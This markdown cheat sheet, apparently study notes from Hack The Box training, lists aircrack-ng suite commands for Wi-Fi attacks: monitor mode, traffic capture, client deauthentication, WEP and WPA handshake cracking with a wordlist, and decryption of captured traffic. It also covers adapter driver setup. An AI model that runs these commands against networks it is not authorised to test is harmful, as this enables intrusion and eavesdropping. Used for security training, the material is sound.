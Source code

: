 # WI-FI CODE SNIPPETS
## MISC
```
iwconfig
```
Grab all networks nearby:
```
iwlist wlan1 s | grep 'Cell\|Quality\|ESSID\|IEEE\|Mode\|Frequency\|Channel\|Quality\|Signal Level' | tee wifi_scan.txt
```
Restart NetworkManager
```
systemctl restart NetworkManager
```

---

## Setup
Set router to max power
```
ifconfig wlan1 down
```
```
iwconfig wlan1 txpower 30
```
```
ifconfig wlan1 up
```
Preemptively kill everything that gets in your way:
```
sudo airmon-ng check kill
```
Start monitor mode:
```
sudo airmon-ng start wlan1
```
Run a test:
```
sudo aireplay-ng --test wlan1mon
```
Should see `Injection is working!`

Save what's out there and save to a file:
```
sudo airodump-ng wlan1mon --band agp -w dump
```

---

## Airmon-ng
Start monitor mode:
```
sudo airmon-ng start wlan1
```
Stop monitor mode:
```
sudo airmon-ng stop wlan0mon
```

## Airodump-ng
Dump network traffic to file:
airodump-ng is configured to scan exclusively for networks operating on the 2.4 GHz band so use `--band abg` if necessary
```
sudo airodump-ng wlan1mon --band a -w dump
```

## Airgraph-ng
Visualize APs and Clients with:
Use airodump-ng `.csv`s
```
sudo airgraph-ng -i dump-01.csv -g CAPR -o dumpCAPR.png
```
OR for CPG:
```
sudo airgraph-ng -i HTB-01.csv -g CPG -o dumpCPG.png
```
Test with: (Injection Working!)
```
sudo aireplay-ng --test wlan0mon
```

## Aireplay-ng
```
sudo aireplay-ng
```
```
sudo aireplay-ng -0 5 -a ACCESSPOINTBSSID -c CLIENTBSSID wlan1mon
```

## Aircrack-ng
Benchmark with this command, it will tell you how many passphrases you can crack a second, it's dependent on what else is using the CPU:
```
sudo aircrack-ng -S
```
Crack WEP Key, use `--ivs` in aurodump-ng command to only capture the IVs (Initialization Vectors). Once enough are captured:
```
sudo aircrack-ng -K HTB.ivs
```
Crack WPA, make sure the "four-way handshake" is in the `.pcap` by deauthing client from AP.
```
sudo aircrack-ng HTB.pcap -w /opt/wordlist.txt
```

## Airdecap-ng
Need network passphrase / WEP Key and the `.pcap` file of captured traffic
```
sudo airdecap-ng
```
Decrypt WEP
```
sudo airdecap-ng -w <WEP-key> <capture-file>
```
Decrypt WPA:
```
sudo airdecap-ng -p <passphrase> <capture-file> -e <essid>
```

# EXTRAS
Note that it is possible to connect to APs via CLI
## Rasberry Pi MAC address ranges:
```
28:CD:C1:xx:xx:xx
B8:27:EB:xx:xx:xx
D8:3A:DD:xx:xx:xx
DC:A6:32:xx:xx:xx
E4:5F:01:xx:xx:xx
```

---

## Install Alpha Adapter
Configuring the Alpha AWUS036ACH Wi-Fi Adapter - [Link](https://medium.com/@wicked_picker/configuring-the-alpha-awus036ach-wi-fi-adapter-on-kali-linux-eb5ec2826713)
See available USBs:
```
lsusb
```
Then see it NOT here:
```
iwconfig
```
Install the Realtek drivers:
```
apt-get install realtek-rtl88xxau-dkms
```
Install dkms:
```
sudo apt-get install dkms
```
Download the rtl8812au drivers from GitHub
```
git clone https://github.com/aircrack-ng/rtl8812au
```
```
cd rtl8812au
```
Preemptively fix the error:
```
sudo apt-get install linux-headers-$(uname -r)
```
```
make
```
```
sudo make install
```
```
reboot
```
```
iwconfig
```

---


